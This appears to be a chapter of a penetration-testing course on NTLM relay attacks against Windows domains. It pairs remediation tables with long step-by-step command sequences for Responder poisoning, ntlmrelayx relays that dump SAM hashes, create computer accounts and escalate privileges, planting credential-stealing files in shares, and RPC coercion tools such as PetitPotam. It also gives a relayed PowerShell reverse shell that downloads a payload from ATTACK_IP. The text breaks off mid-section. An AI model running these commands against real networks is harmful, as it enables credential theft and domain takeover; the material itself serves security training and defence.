After receiving the AUTHENTICATE_MESSAGE, the server cannot verify the user's identity itself (because it does not possess the client's secret key). Instead, it delegates verification to a Domain Controller via pass-through authentication by invoking NetrLogonSamLogonWithFlags, which contains NETLOGON_NETWORK_INFO. If authentication succeeds, the DC returns a NETLOGON_VALIDATION_SAM_INFO4 data structure, and the server establishes an authenticated session. Otherwise, the DC returns an error.
For workgroup authentication, the server verifies the user's identity itself (no DC involvement).
10.1.2 NTLM Messages
Each NTLM message is variable-length, containing a fixed-length header and a variable-sized payload. The header always starts with the Signature and MessageType fields:
| Field | Meaning |
|---|---|
Signature | 8-byte NULL-terminated ASCII string always set to [N,T,L,M,S,S,P,\0] |
MessageType | 4-byte unsigned integer: 0x00000001 (NtLmNegotiate), 0x00000002 (NtLmChallenge), or 0x00000003 (NtLmAuthenticate) |
MessageDependentFields | Variable-length field containing NTLM message contents |
payload | Variable-length field containing individual payload messages referenced by byte offsets |
NEGOTIATE_MESSAGE: First NTLM message sent by the client. Contains the NegotiateFlags field (32 one-bit flags present in all three messages) that indicate which NTLM capabilities are supported/requested.
CHALLENGE_MESSAGE: Second message sent by the server. Contains NegotiateFlags (flags the server chose from the client's offer) and ServerChallenge (the 64-bit nonce). Tools such as NTLM Challenger, ntlm-info, NTLMRecon, and DumpNTLMInfo.py can perform reconnaissance by parsing the CHALLENGE_MESSAGE:
python3 examples/DumpNTLMInfo.py [dc-ip]AUTHENTICATE_MESSAGE: Third message sent by the client. Contains LmChallengeResponseFields and NtChallengeResponseFields — the computed responses that prove knowledge of the shared secret.
10.1.3 NTLMv1 and NTLMv2 Response Calculation
NTLMv1 Response: Uses NTOWFv1 (implemented in compute_nthash) and LMOWFv1 (implemented in compute_lmhash) one-way functions that create hashes from the user's password. The response is computed via computeResponseNTLMv1. If captured by Responder, an NTLMv1 hash displays in the format:
User::HostName:LmChallengeResponse:NtChallengeResponse:ServerChallengeNTLMv2 Response: Uses NTOWFv2 and LMOWFv2 one-way functions (version-dependent, only used by NTLMv2). The response includes a NTLMv2_CLIENT_CHALLENGE structure with a client-generated challenge. If captured by Responder, an NTLMv2 hash displays in the format:
User::Domain:ServerChallenge:Response:NTLMv2_CLIENT_CHALLENGE10.1.4 NTLM Session Security
If negotiated, session security provides message integrity (signing) and message confidentiality (sealing). The NTLM protocol itself does not provide session security; SSPI provides it. NTLMv1 only supports signing (not sealing), which is one reason Microsoft strongly recommends against its usage.
Message Signing: When session signing is negotiated, the client and server negotiate a session key derived from a combination of challenges and the user's password hash. All messages are then signed using a MAC (Message Authentication Code). An adversary cannot forge signed messages because the password hash is never transmitted.
Default SMB signing settings are critical for relay attacks:
| Host Type | Default Signing Setting |
|---|---|
| SMB1 Client | Enabled |
| SMB1 Server | Disabled |
| SMB2 & SMB3 Clients | Not Required |
| SMB2 & SMB3 Servers | Not Required |
| Domain Controllers | Required |
Microsoft released an update to enforce SMB signing on Windows 11 Insider editions (and later major releases), finally abandoning the legacy behavior where signing was required by default only when connecting to SYSVOL and NETLOGON shares.
Message Sealing: Provides message confidentiality via symmetric-key encryption. In the context of NTLM, sealing also implies signing — every sealed message is also signed.
10.1.5 Extended Protection for Authentication (EPA)
EPA (based on RFC 5056) is a feature introduced in Windows Server 2008 and later that enhances NTLM authentication security. When EPA is enabled, the client and server establish a secure channel using a Channel Binding Token (CBT) that binds authentication to specific channel characteristics (IP address, port), preventing authentication from being replayed on a different channel. EPA is designed to work with SMB and HTTP protocols.
Methodology
-
python3 examples/DumpNTLMInfo.py TARGET_IP
10.1.6 Remediation and Mitigation
| Mitigation | Impact |
|---|---|
| Disable NTLMv1 and LM authentication entirely | Eliminates weaker hash algorithms; enforce NTLMv2-only via GPO LmCompatibilityLevel = 5 |
| Enable SMB Signing (Required) on all hosts | Prevents relay of SMB NTLM authentication to SMB targets |
| Enable EPA on all HTTP endpoints | Binds authentication to the channel, preventing cross-protocol relay |
| Migrate to Kerberos where possible | Kerberos supports mutual authentication, unlike NTLM |
| Enforce LDAP signing and LDAP channel binding on DCs | Prevents relay to LDAP targets |
| Restrict NTLM usage via GPO | Network security: Restrict NTLM policies limit where NTLM can be used |
10.2 The NTLM Relay Attack
NTLM relay (also referred to as "NTLM reflection") is an Adversary-in-the-Middle (AiTM) technique that exploits the fact that all NTLM family protocols are susceptible to relay attacks from spoofed servers because they lack the means to support mutual authentication. The client cannot verify that it is authenticating against the legitimate server, and vice versa (session security via signing addresses this, but it must be enforced).
Situations where NTLM is used instead of Kerberos:
- Compatibility with legacy systems not supporting Kerberos
- Kerberos configuration not set up correctly
- Server is not domain-joined
- A protocol chooses not to support Kerberos but only NLMP
Historical context: In 2001, Sir Dystic of the Cult of the Dead Cow released SMBRelay, a C++ proof-of-concept for NTLM self-relay over SMB. Microsoft patched the self-relay attack in 2008 with the MS08-068 update. However, cross-host relay remains viable when signing is not enforced.
10.2.1 AiTM NTLM Authentication
To perform an NTLM relay attack against domain-joined machines, the adversary:
- Pretends to be a legitimate server for the client requesting authentication.
- Pretends to be a legitimate client for the server that offers the target service.
- Relays NTLM messages back and forth between client and server until an authenticated session is established on the server.
- Abuses the authenticated session to perform authorized actions on behalf of the client.
- Sends the client an authentication-failed message or terminates the connection.
10.2.2 The Three Phases of NTLM Relay
| Phase | Name | Focus |
|---|---|---|
| I | Pre-relay | Induce/coerce a client to initiate NTLM authentication against the attacker |
| II | Relay | Relay the NTLM authentication from the client to a relay target |
| III | Post-relay | Abuse the authenticated session obtained through relaying |
The comprehensive mindmap by @_nwodtuhs breaks down each phase into components:
| Component | Explanation |
|---|---|
| Coercion Method | Techniques that induce/coerce the client into authenticating: AiTM or authentication coercion |
| Incoming NTLM auth over | The protocol the client uses for NTLM authentication (HTTP or SMB) |
| Client-side mitigation | Client-side protections against relay (e.g., signing requirements) |
| Server-side mitigation | Server-side protections against relay (e.g., signing enforcement) |
| Relayed NTLM auth over | Protocols used to relay: HTTP, HTTPS, SMB, LDAP, LDAPs |
| Post-relay attack | Actions taken on the authenticated session (depends on protocol) |
Critical observation: HTTP NTLM authentication can be relayed over all protocols without requiring the relay targets to be vulnerable to exploits, because HTTP does not support session signing. SMB NTLM authentication has restrictions — for example, it cannot be relayed over LDAP unless the target is vulnerable to specific CVEs, because SMB supports session signing and the DC can request it.
10.2.3 Drop the MIC and Session Key Vulnerabilities
CVE-2019-1040 (Drop the MIC): Disclosed by Preempt Security on June 11, 2019. This vulnerability allows bypassing session signing requirements by manipulating NTLM messages:
CVE-2019-1166 (Drop the MIC 2): Disclosed four months later, a similar bypass after Microsoft patched the original Drop the MIC.
CVE-2019-1019 (Your Session Key is my Session Key): Builds upon CVE-2015-0050. Researchers discovered it was possible to request from the DC any session key for any NTLM authentication and subsequently sign and seal messages, establishing a signed session against any server.
The ntlmrelayx options --remove-mic and -remove-target are used against targets vulnerable to CVE-2019-1040 and CVE-2019-1019, respectively.
Methodology
-
crackmapexec smb SUBNET --gen-relay-list relayTargets.txt -
python3 scan.py domain/user:'password'@DC_IP
10.3 Pre-relay: Poisoning and Spoofing
The pre-relay phase focuses on inducing a client to initiate NTLM authentication against the attacker. The two primary techniques are poisoning/spoofing attacks (AiTM, opportunistic) and authentication coercion (targeted, covered in Section 10.7).
10.3.1 LLMNR, NBT-NS, and mDNS Poisoning
When a DNS query fails (e.g., due to a typo like SERVERR instead of SERVER), Windows falls back to alternative name resolution protocols: LLMNR (Link-Local Multicast Name Resolution, RFC 4795), NBT-NS (NetBIOS Name Service), and mDNS (multicast DNS). Unlike DNS (unicast), these are multicast/broadcast protocols — the client asks the entire local network if anyone knows the name. An attacker on the same network can answer these broadcast requests and redirect the client to authenticate against the attacker's machine.
Windows supports various name resolution processes: DNS, NetBIOS Name Resolution (NBT-NS), LLMNR, Peer Name Resolution (PNR), and Server Network Information Discovery (SNID).
Primary tools:
10.3.2 Responder Analyze Mode
Responder's -A flag enables analyze mode, which shows NBT-NS, browser, and LLMNR requests without responding to them. This is useful for reconnaissance to see what names clients are requesting:
sudo python3 Responder.py -I [interface] -AAnalyze mode is also useful for capturing hashes from various protocols (SMB, MSSQL, HTTP, FTP, IMAP, LDAP) without actively poisoning. These hashes can be cracked offline or, occasionally, plaintext credentials may be received.
10.3.3 Responder Poisoning Mode
Removing the -A option puts Responder in poisoning mode, where it actively answers broadcast traffic and redirects clients to authenticate against the attack machine:
sudo python3 Responder.py -I [interface]Responder captures and displays NTLMv2 hashes from various protocols. All captured hashes are also saved to /logs in the format (MODULE_NAME)-(HASH_TYPE)-(CLIENT_IP).txt.
10.3.4 Hunting for Relay Targets
For SMB relay targets, SMB signing must be disabled (or not required). Three tools to enumerate signing status:
RunFinger.py (included with Responder):
python3 RunFinger.py -i [subnet]CrackMapExec with --gen-relay-list:
crackmapexec smb [subnet] --gen-relay-list relayTargets.txtNmap with the smb2-security-mode script:
nmap -Pn --script=smb2-security-mode.nse -p 445 [subnet] --openDomain controllers always show Message signing enabled and required. Other hosts typically show Message signing enabled but not required, making them valid relay targets.
Other poisoning attack types to be aware of: ARP Poisoning, DNS Poisoning, DHCP Spoofing, DHCPv6 Spoofing, ADIDNS Poisoning, WPAD Spoofing, WSUS Spoofing.
Methodology
-
crackmapexec smb SUBNET --gen-relay-list relayTargets.txt -
sudo python3 Responder.py -I INTERFACE -A -
nmap -Pn --script=smb2-security-mode.nse -p 445 SUBNET --open -
sudo python3 Responder.py -I INTERFACE
10.3.5 Remediation and Mitigation
| Mitigation | Impact |
|---|---|
Disable LLMNR via GPO (Turn off multicast name resolution) | Prevents LLMNR poisoning |
| Disable NBT-NS on all network interfaces | Prevents NBT-NS poisoning |
| Disable mDNS | Prevents mDNS poisoning |
| Enforce SMB signing (Required) on all hosts via GPO | Prevents SMB relay even if poisoning succeeds |
| Enable EPA on HTTP endpoints | Prevents HTTP NTLM relay |
| Ensure DNS is properly configured with complete records | Reduces fallback to multicast protocols |
| Network segmentation and 802.1X | Limits attacker's ability to see broadcast traffic |
| Monitor for Responder/Inveigh activity (detect rogue SMB/HTTP servers) | Detection control |
10.4 NTLM Relay over SMB Attacks
The primary tool for NTLM relay attacks on Linux is Impacket's ntlmrelayx, introduced by Dirk-Jan Mollema as an extension of smbrelayx.py. It is the flagship tool for conducting relay attacks, supporting both NTLM relay and numerous post-relay attacks. Other tools include MultiRelay.py and Inveigh (Windows).
10.4.1 Responder Configuration
Before performing relay attacks, the Responder configuration file (Responder/Responder.conf) must be modified to disable the servers that ntlmrelayx needs to run. Since ntlmrelayx runs its own SMB and HTTP servers to intercept and relay connections, Responder's servers on those ports must be turned off:
# Disable SMB server in Responder
sed -i "s/SMB = On/SMB = Off/" Responder.conf
# Verify
cat Responder.conf | grep -i smb
# SMB = OffThe same applies to HTTP if relaying HTTP connections. The config file also supports Specific IP Addresses to respond to, useful when targeting specific hosts.
10.4.2 Basic SMB Relay (SAM Dump)
By default, ntlmrelayx relays NTLM authentication over SMB. If the relayed session has high privileges (local admin) on the target, ntlmrelayx automatically performs a SAM dump — extracting cached credentials of local users from the SAM and SECURITY registry hives (LM and NT hashes).
Target specification:
Attack workflow:
# Terminal 1: Start Responder (SMB = Off in config)
sudo python3 Responder.py -I [interface]
# Terminal 2: Start ntlmrelayx targeting hosts with signing disabled
sudo ntlmrelayx.py -tf relayTargets.txt -smb2supportWhen a privileged user's authentication is relayed, ntlmrelayx dumps the SAM:
[*] Authenticating against smb://[target-ip] as [DOMAIN]/[USER] SUCCEED
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bdaffbfe64f1fc646a3353be1c2c3c99:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Done dumping SAM hashes for host: [target-ip]If authentication succeeds but the user lacks admin privileges, you see rpc_s_access_denied and no SAM dump occurs.
10.4.3 Command Execution via SMB Relay
Instead of SAM dump, use -c "COMMAND" to execute commands on the target via SMB:
# Simple ping test
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -c 'ping -n 1 [target-ip]'Reverse shell via relay:
# Terminal 1: Start Python web server to host the PowerShell payload
python3 -m http.server
# Terminal 2: Start nc listener
nc -nvlp 7331
# Terminal 3: Run ntlmrelayx with reverse shell command
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -c "powershell -c IEX(New-Object NET.WebClient).DownloadString('http://ATTACK_IP:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress ATTACK_IP -Port 7331"The reverse shell connects back as NT Authority\System.
Methodology
-
sed -i "s/SMB = On/SMB = Off/" Responder.conf -
sudo python3 Responder.py -I INTERFACE -
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -c 'COMMAND'
10.4.4 Remediation and Mitigation
| Mitigation | Impact |
|---|---|
| Enforce SMB signing (Required) on all hosts via GPO | Completely prevents SMB-to-SMB relay |
| Disable LLMNR, NBT-NS, mDNS | Prevents the poisoning that triggers the relay |
| Restrict local admin accounts (LAPS, tiered admin model) | Limits post-relay impact even if relay succeeds |
| Monitor for suspicious SMB authentication patterns | Detect relay attempts via source/destination analysis |
| Disable the RemoteRegistry service | Prevents remote SAM dump technique |
10.5 NTLMRelayx Advanced Use Cases
Beyond basic credential relay, NTLMRelayx supports multi-relaying to multiple targets simultaneously, SOCKS proxy connections for persistent access, and interactive SMB shells for direct filesystem access.
10.5.1 Multi-relaying
The multi-relay feature of ntlmrelayx enables:
- Identifying the users from received NTLM authentication (allowing selective relaying).
- Relaying a single NTLM authentication connection to multiple targets.
Multi-relaying works by making clients authenticate locally on the attack machine, extracting their identities, then forcing reauthentication to relay connections to targets. It is the default behavior for HTTP and SMB servers (disable with --no-multirelay).
Target definition follows the URI format: scheme://authority/path:
- scheme — target protocol (
smb,http,ldap,mssql,all). Default issmb. - authority —
DOMAIN\\USERNAME@HOST:PORT. General targets omit DOMAIN\\USERNAME; named targets include it. - path — optional, for specific attacks like AD CS web enrollment endpoints.
| Target Type | Example | Multi-relay Default | Relationship |
|---|---|---|---|
| Single General Target | -t 172.16.117.50 | Disabled | 1:1 |
| Single Named Target | -t smb://DOMAIN\\USER@HOST | Enabled | M:M |
| Multiple Targets (file) | -tf relayTargets.txt | Enabled | M:M |
To enable multi-relay on a single general target, put it in a file and use -tf. To disable multi-relay on a named target, use --no-multirelay.
10.5.2 SOCKS Connections
The -socks option launches a SOCKS proxy that holds relayed authenticated sessions active, allowing abuse with any tool via proxychains:
# Start ntlmrelayx with SOCKS
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -socksThe -socks option enables an interactive CLI within ntlmrelayx. The socks command lists active sessions:
ntlmrelayx> socks
Protocol Target Username AdminStatus Port
-------- ------------- -------------------- ----------- ----
SMB [target-ip] [DOMAIN]/[USER] TRUE 445
SMB [target-ip] [DOMAIN]/[USER] FALSE 445
SMB [target-ip] [DOMAIN]/[USER] FALSE 445Configure proxychains to use ntlmrelayx's default SOCKS port 1080:
# /etc/proxychains4.conf (or /etc/proxychains.conf)
socks4 127.0.0.1 1080Using administrative sessions (AdminStatus = TRUE) for remote code execution:
proxychains4 -q smbexec.py [DOMAIN]/[USER]@[target-ip] -no-passUsing non-administrative sessions (AdminStatus = FALSE) for share access:
proxychains4 -q smbclient.py [DOMAIN]/[USER]@[target-ip] -no-pass
# shares
# use Finance
# ls10.5.3 Interactive SMB Client Shells
The -i / --interactive option launches an SMB client shell for each authenticated session, listening on a local TCP port:
# Start ntlmrelayx with interactive option
ntlmrelayx.py -tf relayTargets.txt -smb2support -i
# Connect to interactive shell via nc
nc -nv 127.0.0.1 11000
# shares
# use Finance
# lsEach session opens on a different port (11000, 11001, etc.). Look for the lines Started interactive SMB client shell via TCP on 127.0.0.1:PORT in ntlmrelayx output to determine which port corresponds to which session.
Methodology
-
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -socks -
echo "socks4 127.0.0.1 1080" >> /etc/proxychains4.conf -
proxychains4 -q smbexec.py DOMAIN/USER@TARGET -no-pass -
proxychains4 -q smbclient.py DOMAIN/USER@TARGET -no-pass -
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -i
10.6 NTLM Cross-protocol Relay Attacks
NTLM authentication relaying is not limited to SMB. Because the NTLM security protocols are embedded protocols, we can extract the NTLM authentication messages from one application protocol and embed them in another — a technique known as cross-protocol relaying.
ntlmrelayx client protocols (relay NTLM auth over): HTTP(S), IMAP, LDAP(S), MSSQL, RPC, SMBv1/2/3, SMTP
ntlmrelayx server protocols (relay NTLM auth from): HTTP(S), RAW, SMBv1/2/3, WCF
| Relay Auth From | Relay Auth Over | Cross-protocol? |
|---|---|---|
| HTTP(S) | HTTP(S) | No |
| HTTP(S) | IMAP, LDAP(S), MSSQL, RPC, SMBv1/2/3, SMTP | Yes |
| SMBv1/2/3 | SMBv1/2/3 | No |
| SMBv1/2/3 | HTTP(S), IMAP, LDAP(S), MSSQL, RPC, SMTP | Yes |
| WCF | HTTP(S), IMAP, LDAP(S), MSSQL, RPC, SMBv1/2/3, SMTP | Yes |
10.6.1 NTLM Relay over MSSQL
Relay NTLM authentication to MSSQL servers to access SQL databases. Uses mssqlclient.py (Impacket), which implements TDS and SSRP protocols.
Via SOCKS proxy:
# Start ntlmrelayx targeting MSSQL with SOCKS
sudo ntlmrelayx.py -t mssql://[target-ip] -smb2support -socks
# Run Responder with SMB server Off
sudo python3 Responder.py -I [interface]After relaying succeeds, connect via proxychains:
proxychains -q mssqlclient.py [DOMAIN]/NPORTS@[target-ip] -windows-auth -no-pass
# Enumerate databases
SQL> enum_db
# Interactive commands available:
# enable_xp_cmdshell, xp_cmdshell {cmd}, enum_links, enum_impersonate, etc.Via direct query execution (using -q option):
sudo ntlmrelayx.py -t mssql://[DOMAIN]\\NPORTS@[target-ip] -smb2support -q "SELECT name FROM sys.databases;"Important notes:
10.6.2 NTLM Relay over LDAP
LDAP is a widely used protocol for accessing and managing directory information. Relaying NTLM authentication over LDAP enables powerful post-relay attacks:
Critical limitation: SMB NTLM authentication cannot be relayed over LDAP by default because domain controllers require session signing. The DC will reject the relayed request. However:
- If the DC is vulnerable to CVE-2019-1040, use
--remove-micto bypass signing. - HTTP NTLM authentication CAN be relayed over LDAP because HTTP does not support session signing and the DC cannot request it.
Domain Enumeration:
# Disable SMB and HTTP in Responder config
sed -i "s/SMB = On/SMB = Off/; s/HTTP = On/HTTP = Off/" Responder/Responder.conf
# Start ntlmrelayx targeting LDAP with domain dump
sudo ntlmrelayx.py -t ldap://DC_IP -smb2support --no-da --no-acl --lootdir ldap_dumpOptions: --no-da disables adding a domain admin, --no-acl prevents ACL abuse, --lootdir/-l specifies dump directory. Output files include: domain_users.json, domain_computers.html, domain_groups.json, domain_policy.json, domain_trusts.json, etc.
Computer Account Creation:
sudo ntlmrelayx.py -t ldap://DC_IP -smb2support --no-da --no-acl --add-computer 'plaintext$'Requires ms-DS-MachineAccountQuota >= 1 (default is 10). ntlmrelayx automatically switches to LDAPS via StartTLS when needed (bypassing LDAP Channel Binding). The created computer account credentials are displayed in the output and can be used for subsequent attacks.
Privilege Escalation via ACLs Abuse:
sudo ntlmrelayx.py -t ldap://DC_IP -smb2support --escalate-user 'plaintext$' --no-dump -debugOnly works if the relayed account has high-privilege permissions (e.g., Full Control over a privileged group). ntlmrelayx enumerates the relayed user's group memberships and ACL permissions, then adds the specified user to a privileged group (e.g., Enterprise Admins) if possible.
10.6.3 NTLM Relay over HTTP
Relaying NTLM authentication over HTTP enables access to restricted web endpoints. The NTLM over HTTP Protocol (MS-NTHT) specifies how NTLM authentication works over HTTP:
- Client sends GET request without Authorization header.
- Server responds with
401 UnauthorizedandWWW-Authenticate: NTLMheader. - Client sends GET with
Authorization: NTLM [base64 NEGOTIATE_MESSAGE]. - Server responds with
401andWWW-Authenticate: NTLM [base64 CHALLENGE_MESSAGE]. - Client sends GET with
Authorization: NTLM [base64 AUTHENTICATE_MESSAGE]. - Server responds with
2xxsuccess and the requested content.
HTTP NTLM authentication is more powerful for relaying than SMB because HTTP does not support session signing, meaning relay targets cannot request signing as a defense. This is critical for attacks against AD CS web enrollment endpoints and ADFS login endpoints.
Tools: NTLMRecon for fuzzing NTLM-enabled web endpoints, Proxy-Ez for handling HTTP authentication schemes, NTLMParse for decoding base64-encoded NTLM messages.
10.6.4 NTLM Relay over RPC
Microsoft's implementation of DCE RPC is defined in MS-RPCE. Among its security providers, NTLM (RPC_C_AUTHN_WINNT = 0x0A) is supported. If a relay target has an interface accepting RPC_C_AUTHN_LEVEL_CONNECT, NTLM authentication can be relayed over it.
| Name | Value | Security Provider |
|---|---|---|
| RPC_C_AUTHN_NONE | 0x00 | No Authentication |
| RPC_C_AUTHN_GSS_NEGOTIATE | 0x09 | SPNEGO |
| RPC_C_AUTHN_WINNT | 0x0A | NTLM |
| RPC_C_AUTHN_GSS_SCHANNEL | 0x0E | TLS |
| RPC_C_AUTHN_GSS_KERBEROS | 0x10 | Kerberos |
| RPC_C_AUTHN_NETLOGON | 0x44 | Netlogon |
| RPC_C_AUTHN_DEFAULT | 0xFF | Same as RPC_C_AUTHN_WINNT |
Abusable RPC protocols include MS-TSCH (Task Scheduler) for remote command execution and MS-ICPR (ICertPassage) for AD CS ESC11 attacks. ntlmrelayx supports relaying over TSCH for Exchange Servers.
10.6.5 NTLM Relay over All Protocols
ntlmrelayx supports the all wildcard scheme to relay over every supported protocol simultaneously:
# Set target file to use all:// scheme
cat relayTargets.txt
all://[target-ip]
all://[target-ip]
# Disable ALL Responder servers
sed -i '4,18s/= On/= Off/g' Responder.conf
sudo python3 Responder.py -I [interface]
# Start ntlmrelayx with SOCKS and all protocols
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -socksThis establishes authenticated sessions over SMB, MSSQL, HTTPS, and any other available protocol on the targets. Use stopservers command to stop relay servers, then socks to view all active sessions.
Methodology
-
echo "all://TARGET_IP" > relayTargets.txt -
sed -i '4,18s/= On/= Off/g' Responder.conf -
sudo ntlmrelayx.py -tf relayTargets.txt -smb2support -socks -
sudo ntlmrelayx.py -t ldap://DC_IP -smb2support --add-computer 'NAME$' --no-da --no-acl -
sudo ntlmrelayx.py -t mssql://TARGET -smb2support -socks -
sudo ntlmrelayx.py -t ldap://DC_IP -smb2support --escalate-user 'USER$' --no-dump -debug
10.6.6 Remediation and Mitigation
| Mitigation | Impact |
|---|---|
| Enable LDAP signing on Domain Controllers | Prevents LDAP relay attacks |
| Enable LDAP channel binding on DCs | Prevents StartTLS bypass; blocks machine account creation via relay |
| Restrict ms-DS-MachineAccountQuota to 0 | Prevents relay-based computer account creation |
| Enable EPA on all HTTP endpoints | Prevents HTTP cross-protocol relay |
| Enforce SMB signing on all hosts | Prevents SMB-based relay origination |
| Audit and fix misconfigured ACLs/DACLs | Prevents privilege escalation via relayed sessions |
| Disable unnecessary NTLM auth on MSSQL | Limits cross-protocol relay to MSSQL |
| Enable IF_ENFORCEENCRYPTICERTREQUEST on CA | Prevents ESC11 relay to ICPR endpoints |
10.7 Farming Hashes
If LLMNR/NBT-NS/mDNS poisoning is disabled or no users are triggering name resolution failures, alternative techniques can force authentication directly to the attacker's machine. By default, when a user visits a folder in Windows, it automatically attempts to display file icons. A file with its icon location pointing to a remote UNC path (\\ATTACKER_IP\fake.ico) forces the user who opens that folder to authenticate to the specified UNC.
10.7.1 Abusing Access to Shared Folders
Enumeration: Find shares with anonymous access or writable shares:
crackmapexec smb [subnet] -u anonymous -p '' --sharesGenerating malicious files with ntlm_theft:
python3 ntlm_theft.py -g all -s ATTACKER_IP -f '@myfile'ntlm_theft generates multiple file types including: .scf, .url, .lnk, .rtf, .xml, .docx, .htm, .xlsx, .wax, .m3u, .asx, .jnlp, .application, .pdf, Autorun.inf, desktop.ini. The most useful for shared folder attacks are .url and .lnk files (activated when users browse a folder). Prefix filenames with @ to sort them to the top of directory listings.
Placing malicious files in shares:
smbclient.py anonymous@DC_IP -no-pass
# use sharename
# put @myfile/@myfile.lnk
# exitYou cannot relay authentication back to the same host. If a user on 172.16.117.50 opens the file, their authentication can only be relayed to other hosts (e.g., 172.16.117.60).
CrackMapExec Slinky module: Automates .lnk creation and identifies writable shares:
crackmapexec smb DC_IP -u anonymous -p '' -M slinky -o SERVER=ATTACKER_IP NAME=importantFarmer (MDSec): Three binaries — farmer.exe (capture server), crop.exe (file creation for SMB shares), fertiliser.exe (poison Office documents).
10.7.2 WebDAV Attacks
Why WebDAV matters: SMB-based authentication has limitations for cross-protocol relay (e.g., cannot relay SMB to LDAP due to signing). WebDAV (Web Distributed Authoring and Versioning, RFC 4918) is an HTTP extension that forces authentication via HTTP NTLM instead of SMB. HTTP NTLM authentication can be relayed to any protocol because HTTP does not support session signing.
The WebClient service handles WebDAV on Windows. It is enabled by default on workstations but not on servers. Even when enabled, it may not be running.
Enumerate WebClient service status:
crackmapexec smb [subnet] -u 'user$' -p 'password' -M webdavForce WebClient service to start using a .searchConnector-ms file placed in a shared folder:
# Using CrackMapExec's drop-sc module
crackmapexec smb DC_IP -u anonymous -p '' -M drop-sc -o URL=https://ATTACKER_IP/testing SHARE=smb FILENAME=@secretThe .searchConnector-ms file content:
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
<description>Microsoft Outlook</description>
<isSearchOnlyItem>false</isSearchOnlyItem>
<includeInStartMenuScope>true</includeInStartMenuScope>
<templateInfo>
<folderType>{91475FE5-586B-4EBA-8D75-D17434B8CDF6}</folderType>
</templateInfo>
<simpleLocation>
<url>https://whatever/</url>
</simpleLocation>
</searchConnectorDescription>Coerce HTTP authentication via WebDAV connection string: Use \\NAME@PORT\path format with Slinky to force HTTP authentication through WebDAV:
# Create LNK with WebDAV connection string
crackmapexec smb DC_IP -u anonymous -p '' -M slinky -o SERVER=NOAREALNAME@8008 NAME=important
# Relay HTTP auth to LDAP
ntlmrelayx.py -t ldap://DC_IP -smb2support --no-smb-server --http-port 8008 --no-da --no-acl --no-validate-privs --lootdir ldap_dump10.7.3 Abusing MSSQL Access
With access to an MSSQL service, use xp_dirtree (an undocumented SQL extended procedure) to force the MSSQL service account (typically the computer account) to authenticate against the attacker:
# From within mssqlclient.py session:
SQL> xp_dirtree '\\ATTACKER_IP\share'The MSSQL service account's NTLM authentication can then be captured and relayed.
Methodology
-
crackmapexec smb SUBNET -u anonymous -p '' --shares -
python3 ntlm_theft.py -g all -s ATTACKER_IP -f '@myfile' -
smbclient.py anonymous@TARGET -no-pass # use SHARE # put @myfile/@myfile.lnk -
crackmapexec smb SUBNET -u USER -p PASS -M webdav -
crackmapexec smb DC_IP -u USER -p PASS -M drop-sc -o URL=https://ATTACKER/x SHARE=SHARE FILENAME=@secret -
crackmapexec smb DC_IP -u USER -p PASS -M slinky -o SERVER=NAME@PORT NAME=filename
10.7.4 Remediation and Mitigation
| Mitigation | Impact |
|---|---|
| Restrict anonymous access to shared folders | Prevents placement of malicious files |
| Remove write permissions from unnecessary shares | Prevents hash farming via dropped files |
| Disable WebClient service on workstations where not needed | Prevents WebDAV-based HTTP NTLM coercion |
| Block outbound SMB (port 445) at the firewall | Prevents NTLM auth to external attackers |
| Disable xp_dirtree and xp_cmdshell on MSSQL | Prevents MSSQL-based authentication coercion |
| Monitor for suspicious file types (.lnk, .scf, .url, .searchConnector-ms) in shares | Detection control |
| Use Windows Defender Credential Guard | Protects NTLM credentials from being extracted |
10.8 Authentication Coercion

Authentication coercion is a targeted, less opportunistic technique compared to poisoning/spoofing. It forces a client to authenticate against the attacker even without the client intending to initiate authentication. These techniques rely on insecure code in RPC protocols used by sensitive servers. The root cause is that Windows machines automatically authenticate to other machines when trying to access UNC paths like \\ATTACKER_IP\file.txt.
Common coercion sequence:
10.8.1 MS-RPRN PrinterBug
Protocol: Print System Remote Protocol (MS-RPRN / RPRN), used by the Print Spooler Service (runs by default on all Windows machines).
Method abused: RpcRemoteFindFirstPrinterChangeNotificationEx, which creates a remote change notification object that sends change notifications to a specified listener.
Tools: printerbug.py (Python), MSRPRN-coerce (Python), SpoolSample (C#).
Coercing SMB NTLM authentication:
python3 printerbug.py domain/user:'password'@TARGET_IP ATTACKER_IPCoercing HTTP NTLM authentication (requires WebDAV on target; uses WebDAV connection string as listener):
# Format: ATTACKER_NAME@PORT/PATH
python3 printerbug.py domain/user:'password'@TARGET_IP SUPPORTPC@80/printThe ATTACKER_MACHINE_NAME must be a NetBIOS or DNS name (Responder poisons it anyway, so an arbitrary string works). Responder captures the WebDAV NTLMv2 hash.
10.8.2 MS-EFSR PetitPotam
Protocol: Encrypting File System Remote Protocol (MS-EFSR / EFSRPC).
Methods abused: EfsRpcOpenFileRaw and EfsRpcEncryptFileSrv. Prior to CVE-2021-36942 patch, unauthenticated coercion was possible. Post-patch, valid domain credentials are required, but ly4k's PetitPotam implements additional unpatched methods.
# SMB coercion
python3 PetitPotam.py ATTACKER_IP TARGET_IP -u 'user$' -p 'password' -d domain.local
# HTTP coercion (WebDAV connection string)
python3 PetitPotam.py ATTACKER_NAME@80/files TARGET_IP -u 'user$' -p 'password'Successful coercion shows: [+] Got expected ERROR_BAD_NETPATH exception!! [+] Attack worked!
10.8.3 MS-DFSNM DFSCoerce
Protocol: Distributed File System Namespace Management Protocol (MS-DFSNM).
Methods abused: NetrDfsAddStdRoot and NetrDfsRemoveStdRoot. Requires valid domain credentials. DFSCoerce does not appear capable of coercing HTTP NTLM authentication.
python3 dfscoerce.py -u 'user$' -p 'password' ATTACKER_IP TARGET_IP10.8.4 Coercer (Automated Coercion)
Coercer automates the abuse of 17 methods across 5 RPC protocols.
Scan mode — tests which RPC calls on the target are abusable:
